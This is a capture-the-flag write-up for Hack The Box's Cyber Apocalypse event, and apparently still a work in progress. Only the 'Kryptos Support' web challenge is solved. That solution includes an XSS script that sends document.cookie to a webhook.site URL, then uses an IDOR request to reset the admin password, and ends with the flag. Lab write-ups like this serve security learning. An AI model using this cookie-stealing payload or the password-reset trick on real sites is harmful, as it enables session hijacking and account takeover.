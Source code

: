 # Hack The Box - Cyber Apocalypse

A CTF Hosted by Hack The Box which lasted 5 days. I ranked 245th out of more than 7000 teams.

------------

- [Pwn](#pwn)
	-  [Space Pirate: Entrypoint](#pwn1 "Space Pirate: Entrypoint")
	-  [Space pirate: Going Deeper](#pwn2)
	-  [Space pirate: Retribution](#pwn3)
	-  [Vault-breaker](#pwn4)
	-  [Fleet Management](#pwn5)
	-  [Hellbound](#pwn6)
	-  [Trick or Deal](#pwn7)
- [Web](#web)
	-  [Kryptos Support](#web1)
	-  [BlinkerFluids](#web2)
	-  [Amidst Us](#web3)
	-  [Intergalactic Post](#web4)
	-  [Acnologia Portal](#web5)
	-  [Red Island](#web6)
	-  [Mutation Lab](#web7)
- [Rev](#rev)
	-  [WIDE](#rev1)
- [Misc](#misc)
	-  [Compressor](#misc1)

------------

### Pwn
1. <p name="pwn1">Space Pirate: Entrypoint (★☆☆☆)</p>

2. <p name="pwn2">Space Pirate: Going Deeper (★☆☆☆)</p>

3. <p name="pwn3">Space pirate: Retribution (★☆☆☆)</p>

4. <p name="pwn4">Vault-breaker (★☆☆☆)</p>

5. <p name="pwn5">Fleet Management (★☆☆☆)</p>

6. <p name="pwn6">Hellbound (★★☆☆)</p>

7. <p name="pwn7">Trick or Deal (★★☆☆)</p>


### Web
1. <p name="web1">Kryptos Support (★☆☆☆)</p>
For this challenge we were given a website with a `/login` & `/signup` pages. Upon signing up, we get the following page:

<p align="center">
    <img src='/2022/Hack%20The%20Box%20-%20Cyber%20Apocalypse/img/kryptossupport_web1.png'>
</p>

So, this should be a basic XSS since we didn't even get a source code. Going for a basic payload:

```html
<script>
    fetch('https://webhook.site/a02af4ea-d61b-440d-9982-c3804fd1587a?q='+document.cookie);
</script>
```

Gives us the moderator's cookies! Having a look on them, we see a session cookie. We add the session & we visit `/settings`. The magic happens & we are logged in. We see that we have two fields used for changing the current user password & there is no current password confirmation but there is no flag yet? We apparently need to access something higher, maybe an admin account? So we try the change password functionality & we have a look on the HTTP Request. We see that we are sending the UID in the request body:

```json
{
    "password": "hellothere",
    "uid": "100"
}
```

Trying to find the admin ID, we change the UID to 1 & send our HTTP Request. We get a confirmation from the server:

```json
{
    "message": "Password for admin changed successfully!"
}
```

We login as the admin now & we get our flag: `HTB{x55_4nd_id0rs_ar3_fun!!}`

2. <p name="web2">BlinkerFluids (★☆☆☆)</p>

3. <p name="web3">Amidst Us (★☆☆☆)</p>

4. <p name="web4">Intergalactic Post (★☆☆☆)</p>

5. <p name="web5">Acnologia Portal (★★☆☆)</p>

6. <p name="web6">Red Island (★★☆☆)</p>

7. <p name="web7">Mutation Lab (★★☆☆)</p>

### Rev
1. <p name="rev1">WIDE (★☆☆☆)</p>

### Misc
1. <p name="misc1">Compressor (★☆☆☆)</p>


WIP